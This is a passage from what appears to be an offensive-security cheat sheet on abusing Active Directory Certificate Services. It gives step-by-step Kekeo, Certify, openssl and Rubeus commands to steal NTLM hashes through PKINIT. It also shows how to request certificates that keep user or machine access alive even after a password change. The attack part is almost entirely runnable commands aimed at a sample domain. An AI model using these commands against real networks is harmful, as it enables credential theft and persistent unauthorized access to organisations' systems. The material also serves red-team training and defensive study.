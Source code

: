 


## Steal NTLM via PKINIT (THEFT5)

Request NTLM hash when the account is authenticated with a TGT through PKINIT with Kekeo:

```
Cmd > .\kekeo.exe "tgt::pac /caname:CorpCA /domain:megacorp.local /subject:snovvcrash /castore:current_user" "exit"
```




## Persistence via Certificates



### User Persistence (PERSIST1)

Find certificate templates available for enrollment for the current user:

```
Cmd > .\Certify.exe find /clientauth
```

Search for any template that allows domain authentication (a stock published template that allows client authentication is the `User` template).

Request a new certificate for enrolling current user context:

```
Cmd > .\Certify.exe request /ca:CA01.megacorp.local\CorpCA /template:User
```

This will output a certificate and private key in `.pem`. To convert it to `.pfx` compatible with Rubeus do:

```
$ openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

After that an adversary can upload it to target and use Rubeus to request a valid TGT, for as long as the certificate is valid (default certificate lifetime is one year):

```
Cmd > .\Rubeus.exe asktgt /user:snovvcrash /certificate:C:\Temp\cert.pfx /password:Passw0rd!
```

This approach will work *even if the user changes their password*. Combined with the **THEFT5** technique, an adversary can also persistently obtain the account's NTLM hash.



### Machine Persistence (PERSIST2)

Same as for **PERSIST1** but requesting a certificate for enrolling current machine context:

```
# While elevated
Cmd > .\Certify.exe request /ca:CA01.megacorp.local\CorpCA /template:Machine /machine
```
